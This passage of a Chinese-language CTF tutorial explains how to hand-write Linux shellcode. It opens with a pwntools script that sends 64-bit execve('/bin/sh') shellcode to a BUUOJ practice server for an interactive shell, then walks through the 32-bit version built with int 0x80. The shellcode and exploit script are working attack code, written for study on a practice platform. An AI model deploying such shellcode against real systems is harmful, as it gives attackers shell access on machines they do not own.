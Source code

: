 ```python
from pwn import *
p=remote('node4.buuoj.cn',27143)
context(arch='amd64',os='linux',log_level='debug')
shellcode=asm('''
xor rax,rax
push 0x3b
pop rax
xor rdi,rdi
mov rdi,0x68732f6e69622f
push rdi
push rsp
pop rdi
xor rsi,rsi
xor rdx,rdx
syscall
''')
p.sendline(shellcode)
p.interactive()
```
# 3、怎么用汇编语言构造简单的shellcode（32位）

前置知识：

①对于32位程序而言，我们最后系统调用采用的并不是syscall，而是int 0x80

②我们传参的前三个寄存器分别是ebx,ecx,edx

③32位的execve系统调用号是11，并且存储系统调用后的寄存器是eax。32位的系统调用号可以查看这个文件/usr/include/x86_64-linux-gnu/asm/unistd_32.h

然后剩下的思路是和64位汇编构造shellcode的思路是一样的。

首先是

```assembly
xor ecx,ecx
xor edx,edx
```

清空两个参数为0的寄存器

然后是

```assembly
xor ebx,ebx 
push ebx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
```

此时把参数/bin/sh压入栈，最开始push ebx是先压入栈中一个0，用来字符串截断。最后将esp指向的地址赋给了ebx，此时ebx的值就是/bin/sh的地址。
